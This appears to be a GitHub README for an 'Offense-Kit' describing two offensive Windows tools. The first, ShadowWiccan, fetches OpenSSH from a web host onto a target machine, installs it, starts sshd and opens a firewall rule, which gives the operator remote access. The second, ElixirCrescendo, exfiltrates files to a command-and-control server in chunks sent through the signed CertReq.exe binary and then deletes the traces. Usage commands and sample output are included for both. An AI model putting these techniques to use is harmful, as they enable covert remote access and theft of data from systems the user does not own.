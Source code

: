 # Offense-Kit

## ShadowWiccan

An OpenSSH install wrapper for Windows. Download the [official Windows OpenSSH package](https://github.com/PowerShell/Win32-OpenSSH/releases) then move zip to target box or host on a web server. ShadowWiccan will create and work out of C:\ProgramData\ssh, get the ssh.zip, unzip, install, start needed services and add a firewall rule. You can get the SSH zip package from a UNC path(-f) or via web request(-w) and uninstall when you're done (-u). You'll need to have admin. Tested with OpehSSH version v8.1.0.0p1-Beta.

```
C:\>ShadowWiccan.exe -w "http://MyCoolSite/ssh.zip"
* * * * * * * * * * * * * * * * * * * * * * * * * *
      ╔═╗┬ ┬┌─┐┌┬┐┌─┐┬ ┬╦ ╦┬┌─┐┌─┐┌─┐┌┐┌
      ╚═╗├─┤├─┤ │││ ││││║║║││  │  ├─┤│││
      ╚═╝┴ ┴┴ ┴─┴┘└─┘└┴┘╚╩╝┴└─┘└─┘┴ ┴┘└┘
* * * An OpenSSH install wrapper for Windows * * *

[+] Downloading OpenSSH via HTTP
    http://MyCoolSite/ssh.zip

[+] OpenSSH payload written to:
    C:\ProgramData\ssh\ssh.zip
   [+] Unzipping and Installing
      [+] Install script found! Installing...
          _  _|\_
         | |  ("}
         >_<_.-@-._ _ /*  * S ^ *  H ~ *
          \--,  .-`*(/   * `  S +*  ^
          |  /==\
          |  |   \
          |  /___\
      [+] Done.

[+] Configuring OpenSSH
   [+] Service 'sshd' started successfully
   [+] Service 'ssh-agent' started successfully
   [+] Firewall rule 'WinOpenSSHD' added to allow port 22 in

[+] OpenSSH install and configuration COMPLETE
[+] Enjoy your accessh!
```


## ElixirCrescendo

Send a chunked file via a HTTP POST request using the built-in signed binary CertReq.exe. C# app will encode file, chunk into 63KB files (since certreq can only send less than 64KB per request), send each to specified C2 then delete the local chunked files. Just setup your C2 to write/log the content of incoming POST requests.

```
  *  *  * ElixirCrescendo *  *  *
             O*  .
               0   *
              .   o
             o   .
           _________
         c(`       ')o
           \.     ,/
          _//^---^\\_
  --CertReq.exe Exfil Wrapper--

Example:
    C:\>ElixirCrescendo.exe "C:\CoolFolder\juicy_file.zip"
```




